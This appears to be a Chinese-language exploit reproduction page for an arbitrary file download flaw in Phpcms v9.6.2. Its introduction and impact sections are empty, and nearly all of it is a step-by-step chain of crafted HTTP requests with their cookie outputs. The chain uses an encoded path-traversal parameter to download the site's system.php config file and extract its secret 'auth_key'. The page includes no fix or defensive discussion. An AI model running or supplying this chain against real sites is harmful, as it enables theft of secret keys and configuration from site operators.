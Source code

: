 # Phpcms v9.6.2 任意文件下载

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

第一步:进行如下请求获得YDVIB_siteid的值。

请求：


```bash
[GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1
```

获得：


```
[cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst
```

第二步:在[POST DATA] 中的userid_flash参数的值设置为，第一步请求得到的YDVIB_siteid参数的值，并进行如下请求。

请求：


```bash
[GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

[POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst
```

获得：


```bsah
[cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g
```

第三步:将GET请求中的a_k参数的值设置为第二步请求获得的YDVIB_att_json参数的值，并进行如下请求。

请求：


```bash
[get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw
```

获得：


```bash
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM
```

最后点击”点击下载”的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的’auth_key’


```bash
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM
```

![](images/15893342646777.png)


**参考链接**

https://www.freebuf.com/column/158352.html